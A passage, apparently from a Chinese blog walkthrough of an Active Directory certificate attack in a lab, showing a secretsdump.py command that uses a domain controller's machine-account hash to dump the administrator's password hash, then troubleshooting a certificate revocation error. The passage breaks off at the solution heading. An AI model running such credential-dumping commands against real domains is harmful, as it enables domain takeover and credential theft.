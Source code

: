 
![](https://img-blog.csdnimg.cn/img_convert/624c0b62d0d9fcd6ba2b7ef4e1efaeae.png)



导出域内任意用户哈希

----------



使用DC01机器账号认证导出域内任意用户哈希。



```
python3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "xie/DC01\\$@10.211.55.4" -just-dc-user administrator
```




![](https://img-blog.csdnimg.cn/img_convert/4d7496eaf993705bb5f8374a1b254d13.png)



报错原因

====



吊销服务器脱机

-------



当使用命令请求证书时出现如下报错：



```
\[-\] Got error while trying to request certificate: code: 0x80092013 - CRYPT\_E\_REVOCATION\_OFFLINE - The revocation function was unable to check revocation because the revocation server was offline.
```




![](https://img-blog.csdnimg.cn/img_convert/60d4181faefd48381c7dc69ecb5b018f.png)



使用图形化申请证书时如下错误



![](https://img-blog.csdnimg.cn/img_convert/4f12ef640e04570600b37d782526f593.png)



错误原因：吊销服务器脱机



**解决办法：**
